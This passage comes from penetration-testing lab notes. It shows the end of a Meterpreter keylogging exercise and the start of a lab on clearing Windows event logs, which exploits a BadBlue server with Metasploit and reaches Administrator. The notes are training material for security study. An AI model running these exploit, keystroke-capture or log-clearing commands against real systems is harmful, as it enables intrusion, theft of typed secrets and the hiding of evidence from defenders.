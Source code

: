 - Open a `Notepad` session on the Target machine.
- On the Attacker machine, start the keystroke capture

```bash
keyscan_start
	Starting the keystroke sniffer ...
```

- Input some text into the target machine
- Back on the attacker machine, capture the entered data

```bash
keyscan_dump
```

![keyscan_dump](.gitbook/assets/image-20230419231942667.png)

- Stop the sniffer

```bash
keyscan_stop
```

------

## Lab 9 - Clearing Event Logs

> 🔬 Same as Lab 8 - [Windows: File and Keylogging](https://attackdefense.com/challengedetails?cid=1955)
>
> - Target IP: `10.2.26.66`
> - Metasploit **clearev** `Meterpreter` option

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.26.66
setg RHOST 10.2.26.66
workspace -a Clearenv
db_nmap -sV 10.2.26.66
```

### Exploitation

```bash
use exploit/windows/http/badblue_passthru
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator
```
